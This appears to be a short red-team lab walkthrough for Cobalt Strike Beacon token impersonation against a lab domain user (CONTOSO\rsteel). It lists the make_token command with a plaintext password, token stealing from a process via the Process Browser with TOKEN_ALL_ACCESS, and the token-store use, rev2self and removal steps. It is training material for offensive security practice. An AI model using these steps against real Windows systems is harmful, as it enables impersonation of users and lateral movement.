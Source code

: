 ### Token Impersonation

## Make Token

1.  From the medium-integrity Beacon, create and impersonate an access token for rsteel.
    
    1. make_token CONTOSO\rsteel Passw0rd!
2.  Drop the impersonation.
    
    1. rev2self

## Steal Token

1.  From the high-integrity Beacon, open the Process Browser.
    
    1. process_browser
2.  Select a process owned by rsteel.
    
3.  Steal the primary access token of that process and add it to the token store.
    
    1. Click **Steal Token**.
    2. Mask Type: TOKEN_ALL_ACCESS
    3. Store: true
4.  Impersonate that token.
    
    1. Run token-store use 0 from the Beacon console.
5.  Drop the impersonation.
    
    1. rev2self
6.  Remove the token from the store.
    
    1. token-store remove 0